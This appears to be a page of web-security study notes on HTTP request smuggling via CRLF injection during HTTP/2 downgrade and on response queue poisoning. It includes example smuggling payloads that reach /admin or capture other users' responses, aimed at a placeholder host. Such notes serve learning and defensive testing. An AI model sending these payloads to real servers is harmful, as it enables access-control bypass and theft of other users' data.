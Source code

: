 
## Request smuggling via CRLF injection

In HTTP/2 messages `\r\n` no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split. when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers.

E.g. with **H2.TE**

```http
POST / HTTP/2
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
foo: \r\nTransfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

> **Note**: To inject newlines into HTTP/2 headers, in burp use the Inspector to drill down into the header, then press the `Shift + Return` keys.

---

## Response queue poisoning

<details><summary>Theory (in short)</summary></details>

This attack can occur through HTTP/1 request smuggling or HTTP/2 downgrading.

You need to smuggle a complete request.

With this technique you can steal other users' responses.

**(CL)**

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

---
